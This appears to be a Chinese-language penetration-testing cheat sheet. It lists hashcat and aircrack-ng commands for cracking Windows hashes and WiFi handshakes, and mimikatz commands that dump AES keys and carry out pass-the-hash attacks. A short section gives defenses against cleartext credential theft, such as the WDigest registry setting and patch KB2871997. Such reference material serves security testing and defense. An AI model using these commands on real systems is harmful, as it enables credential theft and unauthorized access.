 - 破解Windows散列值

```
hashcat -m 1000 -a 0 -o winpassok.txt win.hash password.lst --username
```

- 破解 WIFI握手包

```
aircrack-ng <out.cap> -J <out.hccap>
hashcat -m 2500 out.hccap dict.txt
```

#### 防御攻击者抓取明文密码

- 设置Active Directory 2012 R2功能级别

```
Protected User 添加<-组
```

- 安装KB2871997

```
安装补丁
禁用Administrator账号
```

- 修改注册表

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 0  修改

reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential 查询
```

- 防止mimikatz抓密码

```
删除拥有debug权限的本地管理员从Administrator组中
```

### 哈希传递攻击

- 哈希传递攻击

```
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.com /ntlm:D(Fxxxxxx"
```
- 使用AES-256哈希传递

```
(1)抓取AES-256密钥
mimikatz "privilege::debug" "sekurlsa::ekeys"

(2)哈希传递
mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.com /aes256:2381fXXXX"
```
